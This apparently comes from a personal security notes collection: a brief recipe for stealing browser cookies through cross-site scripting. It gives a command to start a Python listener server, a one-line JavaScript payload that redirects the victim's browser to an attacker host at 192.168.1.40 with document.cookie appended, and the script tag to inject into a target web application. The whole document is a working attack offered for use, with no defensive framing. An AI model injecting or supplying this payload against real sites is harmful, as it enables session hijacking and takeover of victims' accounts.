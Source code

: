## Start Python Server for listening 
> python3 -m http.server 80

## steal_cookie_simple.js
> document.location = 'http://192.168.1.40:9999/?cookie=' + document.cookie;

## Execution on the web application target:
<script src="http://192.168.1.40:9999/steal_cookie_simple.js"></script>
